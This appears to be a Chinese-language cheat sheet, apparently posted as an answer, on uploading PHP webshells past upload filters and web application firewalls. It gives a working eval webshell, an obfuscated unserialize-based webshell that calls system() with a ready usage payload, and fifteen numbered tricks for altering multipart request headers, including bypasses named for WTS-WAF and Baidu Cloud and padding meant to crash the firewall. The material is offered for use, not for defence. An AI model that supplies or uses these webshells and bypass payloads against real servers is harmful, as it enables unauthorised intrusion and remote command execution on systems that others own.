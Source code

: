 1.先假设一个前提，可以上传.htaccess或者.user.ini  
因为不知道目标使用的是 nginx 还是 Apache，所以给两个参考链接  
如果是nginx可以看看我这篇文章的0x01 CheckIn：https://www.cnpanda.net/ctf/383.html  
如果是apache可以看看这篇文章：https://thibaud-robin.fr/articles/bypass-filter-upload/  
2.如果检测是`<?php ?>`  
可以试一试使用其他标签，如  

```
<script language="php">
 eval($_POST[2333]);
</script>
```
这个要求`php<7`
或者  
```
<?
...
?>
```

3.如果检测的不是php标签，是敏感内容的话，这里送你一个免杀php马  

```php
<?php

if (isset($_POST['run'])) {
  class HandShip {
     public $name;
     public $male;
     function __destruct() {
        $allin = $this->name;
        $allin($this->male);
     }
  }
if(md5($_POST['code'])=='ce61649168c4550c2f7acab92354dc6e'){

  unserialize($_POST['run']);
}
}
?>
```
用法：  

`run=O:8:"HandShip":2:{s:4:"name";s:6:"system";s:4:"male";s:9:"cat /home";};&code=panda`

4.绕过思路：对文件的内容，数据。数据包进行处理。  

关键点在这里`Content-Disposition: form-data; name="file"; filename="ian.php"`
将`form-data; ` 修改为`~form-data;`  
5.通过替换大小写来进行绕过  
```
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
```
将`Content-Disposition`    修改为`content-Disposition`
将` form-data`  修改为`Form-data`
将`Content-Type` 修改为`content-Type`  
6.通过删减空格来进行绕过  
```
Content-Disposition: form-data; name="file"; filename="yjh.php"
Content-Type: application/octet-stream
```
将`Content-Disposition: form-data`         冒号后面 增加或减少一个空格
将`form-data; name="file";`               分号后面 增加或减少一个空格
将`Content-Type: application/octet-stream`   冒号后面 增加一个空格  
7.通过字符串拼接绕过  

看`Content-Disposition: form-data; name="file"; filename="yjh3.php"`
将` form-data` 修改为  ` f+orm-data`
将`from-data` 修改为   `form-d+ata`  
8.双文件上传绕过  
```html
<form action="https://www.xxx.com/xxx.asp(php)" method="post"
name="form1" enctype="multipart/form‐data">
<input name="FileName1" type="FILE" class="tx1" size="40">
<input name="FileName2" type="FILE" class="tx1" size="40">
<input type="submit" name="Submit" value="上传">
</form>
```

9.HTTP header 属性值绕过  

`Content-Disposition: form-data; name="file"; filename="yjh.php"`
我们通过替换`form-data` 为`*`来绕过
`Content-Disposition: *; name="file"; filename="yjh.php"`  
10.HTTP header 属性名称绕过  
源代码:
```
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"
Content-Type: image/png
```
绕过内容如下：  
```
Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
C.php"
```
删除掉`ontent-Type: image/png`只留下`c`，将`.php`加`c`后面即可，但是要注意额，双引号要跟着c.php".  
11.等效替换绕过  
原内容：
```
Content-Type: multipart/form-data; boundary=---------------------------471463142114
```
修改后:  
```
Content-Type: multipart/form-data; boundary =---------------------------471463142114
```
`boundary`后面加入空格。  
12.修改编码绕过  
使用`UTF-16`、`Unicode`、`双URL编码`等等
13.WTS-WAF 绕过上传  
原内容：
```
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
```
添加回车  
```
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
```
14.百度云上传绕过  

百度云绕过就简单的很多很多，在对文件名大小写上面没有检测php是过了的，Php就能过，或者PHP，一句话自己合成图片马用Xise连接即可。
`Content-Disposition: form-data; name="up_picture"; filename="xss.jpg .Php"`   
15.填充垃圾数据，造成溢出后使WAF崩掉  

```
Content-Disposition: 字段溢出即可 比如Content-Disposition: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA一直加就行了十万++
```
